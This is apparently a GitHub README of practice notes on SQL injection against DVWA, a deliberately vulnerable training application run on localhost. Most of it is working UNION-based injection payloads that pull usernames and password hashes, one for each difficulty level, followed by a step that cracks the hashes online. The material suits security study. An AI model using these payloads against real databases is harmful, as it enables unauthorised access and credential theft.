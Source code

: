 # DVWA-Practice
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable.The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface. This repo. contains documentation of the Exploits during my practice session.

Directory: localhost/DVWA-master/vulnerabilities/sqli/

# SQLi - Difficulty:Low
User Id -->


'or 1=1# 


'or'1'='1


' ORDER BY 3#


' ORDER BY 2#


' UNION SELECT user, password FROM users#       (# for commenting the rest of the statements after the query.)


# SQLi - Difficulty:Medium
inspect--> User Id


<option value="1 or 1=1 UNION SELECT user, password FROM users#">' UNION SELECT username, password FROM users--1</option>

NB: However due to the SQL query not having **quotes** around the parameter, this will not fully protect the query from being altered.
    (View Help & Source Code)
    
    
# SQLi - Difficulty:High
1' or 1=1 UNION SELECT user, password FROM users#

# SQLi - Cracking the Hashes
Set Setting: Low & collect the hashes.


' UNION SELECT user, password FROM users#


Paste it into crackstation.net to get the passwords.

# Additional Help: https://portswigger.net/web-security/sql-injection/union-attacks


